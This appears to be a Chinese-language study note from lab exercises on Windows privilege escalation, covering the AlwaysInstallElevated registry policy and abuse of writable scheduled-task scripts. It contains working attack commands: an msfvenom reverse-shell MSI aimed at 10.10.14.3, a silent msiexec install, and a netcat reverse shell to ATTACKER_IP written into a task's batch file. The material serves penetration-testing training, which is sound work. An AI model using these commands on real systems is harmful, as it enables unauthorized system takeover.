 # 其他提權技術
>[!warning ] 小節重點
>一些不知道要分類在哪裡的東西，暫時存放在這裡 
## Always Install Elevated
>[!warning ] 小節重點
>讓用戶可以自行安裝軟體
### 列舉方式
```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
```powershell
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
### 產生MSI安裝檔案
```shell
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```
### 執行安裝檔案
```cmd
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```
## Cron Jobs 
>[!warning ] 小節重點
>跟linux類似，就是利用替換排程執行檔的方式提權。
### 列舉
- 查詢排成清單
```cmd
schtasks /query /fo LIST /v
```
```
schtasks /query /tn vulntask /fo list /v
Folder: \ 
HostName: THM-PC1 
TaskName: \vulntask 
Task To Run: C:\tasks\schtask.bat 
Run As User: taskusr1
```
```powershell
Get-ScheduledTask | select TaskName,State
```
- 檢查資料夾編輯權限
```cmd
.\accesschk64.exe /accepteula -s -d C:\Scripts\
```
```
C:\> icacls c:\tasks\schtask.bat 
c:\tasks\schtask.bat  NT AUTHORITY\SYSTEM:(I)(F) 
					  BUILTIN\Administrators:(I)(F) 
					  BUILTIN\Users:(I)(F)
```
- 修改schtask.bat
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```